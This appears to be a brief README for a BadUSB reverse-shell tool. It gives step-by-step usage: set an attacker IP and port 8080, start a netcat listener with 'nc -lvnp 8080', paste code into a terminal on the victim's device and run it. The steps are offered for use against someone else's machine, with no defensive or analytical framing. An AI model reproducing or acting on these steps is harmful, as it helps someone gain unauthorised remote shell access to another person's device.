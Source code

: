 step 1  add attacker ip and port (8080)
step 2  add " nc -lvnp 8080 " it will listen
step 3  open victim device and open terminal and paste the code 
step 4  enter 

it is easy to use badusb 
